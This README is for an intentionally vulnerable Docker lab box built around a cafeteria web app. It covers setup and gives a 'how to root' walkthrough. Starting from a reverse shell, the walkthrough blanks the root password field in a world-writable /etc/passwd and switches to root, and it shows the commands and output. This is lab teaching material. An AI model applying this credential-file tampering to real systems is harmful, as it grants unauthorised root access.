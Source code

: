# Kaindorf Cafeteria Server

## Introduction

The purpose of this repository is to provide a simple installation for a container that serves the [Kaindorf Cafeteria Application](https://github.com/FloDevAT/Kaindorf-Cafeteria).

## How to Setup

### Requirements

- Docker

### Installation

Since the whole server is deployed inside a single Docker container, it is very easy to install, run, and replace any of the services.

To make the process easier, there is a single `run.sh` file in the repository that executes all the required steps. If you are unable to execute this file for some reason, you can always copy the commands and execute them manually.

The container installs a basic set of tools common in many Linux installations. It also instantly runs the `config.sh` file, which makes the box vulnerable, creates the `noob` user, and runs the application with it.

The container runs within a specific Docker network and assigns it a static IP address, making it easier to demonstrate. However, this configuration is not required for the box to function, so feel free to modify or remove it as needed. For deploying the reverse shell, ensure you check for the correct configuration.

## How to Root the Box

The description of how to exploit the application can be found in its [repository](https://github.com/FloDevAT/Kaindorf-Cafeteria). For this tutorial, I will continue from the initial foothold of a "noob" reverse shell:

```bash
sh-5.2$ id
uid=1000(noob) gid=1000(noob) groups=1000(noob)
```

After some investigation, you may discover that the `/etc/passwd` file is editable by all users (including our `noob` user). This allows us to modify the line for the root user as follows:

```plaintext
root::0:0:root:/root:/bin/bash
```

(Note: We removed the `x` in the second field.)

Now, you can switch to the root user without entering a password:

```bash
sh-5.2$ su root
```

And that's it! We now have a root shell:

```bash
root@cad7035e8cb6:/# id
uid=0(root) gid=0(root) groups=0(root)
